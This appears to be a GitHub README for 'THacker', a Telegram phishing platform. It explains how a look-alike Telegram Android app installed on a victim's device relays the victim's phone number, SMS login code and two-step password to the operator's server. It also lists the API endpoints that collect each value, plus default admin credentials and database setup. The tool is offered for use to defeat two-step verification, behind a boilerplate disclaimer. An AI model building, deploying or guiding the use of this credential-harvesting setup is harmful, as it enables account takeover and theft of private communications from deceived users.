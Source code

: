 # Telegram Hacker ` THacker `

### Android App
The Android app is Written in dart (Flutter) and the source code for that is 👇👇👇
[Android App source code](https://github.com/mikiyasET/Thacker/tree/master)

### What Is It?

THacker is a Phishing platform that can trick and get an account even if it's secured with two step verification. 

**Version 2.0**

## How it works

	It works with an android device so the victim must install the android app or the app can be installed by you in the device the app will look just like normal telegram app so the victim will think it's the normal telegram app he usually uses and when he open the app he will see the default telegram login page and Thacker comes here the app will communicate to Thacker not telegram server so all informations send by the user will be send to Thacker which is you   

# API Reference

- You can use `Postman` for testing purpose

	` Definition of Keywords in the URL `

	*Name of the device*							**[DEVICE]**
	*Name of the app* 								**[APP_NAME]**
	*Received id during the first request* 			**[ID]**
	*Phone number* 									**[PHONE]**
	*Version of the app* 							**[VERSION]**
	*SMS code* 										**[CODE]**
	*Password* 										**[PASSWORD]**

	`Keywords are  shown in brackets []`

	> https://example.com/thacker/api/access.php?device=[DEVICE]&app=[APP_NAME]&version=[VERSION]

	> https://example.com/thacker/api/phone.php?id=[ID]&phone=[PHONE]

	> https://example.com/thacker/api/code.php?id=[ID]&code=[CODE]

	> https://example.com/thacker/api/verify.php?id=[ID]

	> https://example.com/thacker/api/password.php?id=[ID]&password=[PASSWORD]

	> https://example.com/thacker/api/vpass.php?id=[ID]

## Language

> PHP

> Jquery

> Ajax


## Web Page Login Details

> ID			~		12345678
> Password		~		password


## Database

- There is a `telegram.sql` file you can use to import to the database

	` Database Info `

	*Host* 										`localhost`
	*User* 										`root`
	*Password* 									
	*Database Name*									`telegram`

# Legal disclaimer

Usage of Thacker for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. The Developer assume no liability and is not responsible for any misuse or damage caused by this program.


## Creator

- Mikiyas Lemlemu  [Web-Developer](Web-Developer)
	
	> [Facebook](https://facebook.com/mikiyaslemlemu)
	
	> [Telegram](https://t.me/m_miko)
	
	> [Github](https://github.com/mikiyasET)

	> [Email](mikiyaslemlemu@gmail.com)

## License & copyright

© Mikiyas Lemlemu <img width="10px" height="10px" src="https://img.icons8.com/metro/26/000000/marker.png"/> ETHIOPIA 🇪🇹

### Donate

[![ko-fi](https://www.ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/N4N51K3IH)


